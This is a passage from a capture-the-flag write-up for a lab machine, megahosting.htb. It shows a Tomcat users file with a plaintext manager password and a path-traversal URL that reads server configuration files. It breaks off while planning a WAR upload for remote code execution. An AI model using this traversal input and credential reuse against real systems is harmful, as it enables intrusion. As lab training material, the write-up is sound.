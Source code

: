 ```xml
<!--
  NOTE:  By default, no user is included in the "manager-gui" role required
  to operate the "/manager/html" web application.  If you wish to use this app,
  you must define such a user - the username and password are arbitrary. It is
  strongly recommended that you do NOT use one of the users in the commented out
  section below since they are intended for use with the examples web
  application.
-->
<!--
  NOTE:  The sample user and role entries below are intended for use with the
  examples web application. They are wrapped in a comment and thus are ignored
  when reading this file. If you wish to configure these users for use with the
  examples web application, do not forget to remove the <!.. ..> that surrounds
  them. You will also need to set the passwords to something appropriate.
-->
<!--
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
-->
   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
```

We can connect with `tomcat` / `$3cureP4s5w0rd123!` to http://megahosting.htb:8080/manager/html

The manager interface seems to be enabled only on localhost but we may
upload files without it.

We can download `server.xml`
http://megahosting.htb/news.php?file=../../../../../../../usr/share/tomcat9/etc/server.xml

```xml
...
      <Host name="localhost"  appBase="webapps"
            unpackWARs="true" autoDeploy="true">
...
```

So it's accessible only from localhost but will unpack WARs and auto deploy
them.

By reading `web.xml` we can see that `.jsp` are allowed.

Now it's time to read documentation!

## HTTP exploitation: File upload & RCE

Let's see the [Supported Manager Commands](https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Supported_Manager_Commands).
